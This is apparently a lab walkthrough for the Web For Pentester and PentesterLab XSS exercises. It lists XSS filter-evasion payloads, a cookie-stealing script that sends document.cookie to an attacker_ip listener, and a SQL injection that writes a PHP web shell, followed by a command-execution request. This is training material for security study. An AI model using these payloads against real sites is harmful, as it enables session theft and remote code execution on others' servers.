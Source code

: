 ## Cross Site Scripting (XSS) 
``` Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it. ```


### Web For Pentester ( XSS ) Walkthrough
### Example 1
``` There is no input validation, so, can exploit it directly with the classic “alert(1)” injection. ```
#### Payload - <script>alert(1)</script>


### Example 2
``` Filtered <script> and </script> with preg_replace function ```
#### Payload - <sCript>alert(1)</sCript> and <scr<script>ipt>alert(1)</scr</script>ipt>
  
  
### Example 3
``` Use PCRE modifier “i” (PCRE_CASELESS) to match both upper and lower case letters. However, recursion method still works fine. ```
#### Payload - <scr<script>ipt>alert(1)</scr</script>ipt>
  
  
  
### Example 4 
``` The script will stop when “script” is detected, Need other event without script ```
#### Payload - `<img src="x" onerror="alert(1)">  and <div onmousemove="alert(1)" src="xxxx"> , etc... `
  
  
  
### Example 5
``` Filtered keyword “alert” ```
#### Payload - <script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script> or <script>confirm(1)</script> or <script>prompt(1)</script>  etc ... 



### Example 6
``` User input has been included in “<script>” tab, so we do not need input “<script>” and just close the first double quote and use “//” to comment the following strings. ```
#### Payload - ";alert(1);//


### Example 7
``` This time the developer use PHP function “htmlentities()” to deal with user input, the “htmlentities()” function will encode special characters which will break the XSS injection. However, the developer did not indicate any flags to function “htmlentities()” which default only use flags “ENT_COMPAT | ENT_HTML401”, “ENT_COMPAT” flag only convert double quotes and leave single quotes alone```
#### Payload - ';alert(1);//



### Example 8
``` Did correct validation on parameter “name”, but the problem happened on “$_SERVER[PHP_SELF]”. Due to there is no validation on parameter “PHP_SELF” which is controlled by user. ( The filename of the currently executing script, relative to the document root. For instance, $_SERVER['PHP_SELF'] in a script at the address http://example.com/foo/bar.php would be /foo/bar.php. The __FILE__ constant contains the full path and filename of the current (i.e. included) file. If PHP is running as a command-line processor this variable contains the script name since PHP 4.3.0. -php.net )  ```
#### Payload - /" onmouseover="alert(1)



### Example 9
```  DOM-based XSS. the user input is in URL after “#”, so just put payload after “#” in URL will trigger the vulnerability ```
#### Payload - <script>alert(1)</script>  ( Test on IE or Edge )


### XSS and MySQL FILE (  Pentester Lab )
#### [Download Link](https://pentesterlab.com/exercises/xss_and_mysql_file/iso) 
#### Two steps to Attack
#### 1.Detect and Exploit XSS
#### 2.Access Admin Panel and exploit SQLi for RCE

#### Port Scanning - nmap -sV -v -A lab_ip

#### Fuzzing and Scanning - wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.79.168/FUZZ 2>/dev/null 
#### Zap


#### XSS Test

#### setup listener on attacking machine - python -m SimpleHTTPServer 4444

#### Get Admin Cookie - 
``` <script>document.write('<img src="http://attacker_ip:4444/?'+document.cookie+' "/>');</script> ```

#### Use cookie editor and developer tool to login like admin

#### Find and Exploit SQLi ( load_file or others )
``` http://lab_ip/admin/edit.php?id=0 UNION select 1,2,"<?php system($_GET['c']); ?>",4 into outfile "/var/www/css/rce.php" ```

#### Got RCE 
``` http://192.168.79.168/css/webshell.php?c=whoami ```




### [Useful Link](https://owasp.org/www-community/xss-filter-evasion-cheatsheet#HTML_entities)


### Noted by [konova](https://www.facebook.com/kon0va)

### Ref : 
- [F4l13n5n0w](http://f4l13n5n0w.github.io/blog/2015/05/21/pentesterlab-web-for-pentester-xss/)
- [OWASP](https://owasp.org/www-community/attacks/Code_Injection)
- [php.net](https://www.php.net)
- [pentesterlab](https://pentesterlab.com/exercises/xss_and_mysql_file/course)
